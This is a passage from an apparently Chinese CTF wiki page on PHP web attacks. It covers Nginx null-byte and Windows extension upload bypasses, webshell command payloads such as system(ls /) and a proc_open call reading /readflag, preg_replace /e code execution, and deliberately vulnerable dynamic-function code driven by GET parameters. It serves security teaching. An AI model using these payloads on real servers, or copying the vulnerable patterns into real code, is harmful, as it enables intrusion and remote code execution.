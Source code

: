 - Nginx<8.03空字节代码执行漏洞

  上传`xxx.jpg`，访问`xxx.jpg%00.php`或者`xxx.jpg/%20\0.php` 。

- Windows后缀名解析漏洞

  Windows会将文件的后缀中的空格以及点进行过滤，如果遇到是黑名单校验的并且目标系统是Windows，可以上传`xx.php `或者`xx.php.`。

## 命令执行[¶](https://ctf-wiki.github.io/ctf-wiki/web/php/#_8)

### 直接执行代码[¶](https://ctf-wiki.github.io/ctf-wiki/web/php/#_9)

PHP 中有不少可以直接执行代码的函数，如上传一句话木马之后，直接post data：`x=phpinfo();`或`x=system(ls /);`

```
eval();
assert();
system();
exec();
shell_exec();
passthru();
escapeshellcmd();
pcntl_exec();
$a=[["pipe","r"], ["pipe","w"], ["pipe","w"]];$fp=proc_open("/readflag",$a,$p);echo
stream_get_contents($p[1]);
$dr = @opendir('/'); while(($files[] = readdir($dr)) !== false); print_r($files);
echo system('ls');
```

### `preg_replace()` 代码执行[¶](https://ctf-wiki.github.io/ctf-wiki/web/php/#preg_replace)

`preg_replace()` 的第一个参数如果存在 `/e` 模式修饰符，则允许代码执行。

```
<?php
$var = "<tag>phpinfo()</tag>";
preg_replace("/<tag>(.*?)<\/tag>/e", "addslashes(\\1)", $var);
?>
```

如果没有 `/e` 修饰符，可以尝试 %00 截断。

### 动态函数执行[¶](https://ctf-wiki.github.io/ctf-wiki/web/php/#_10)

用户自定义的函数可以导致代码执行。

```
<?php
$dyn_func = $_GET["dyn_func"];
$argument = $_GET["argument"];
$dyn_func($argument);
?>
```
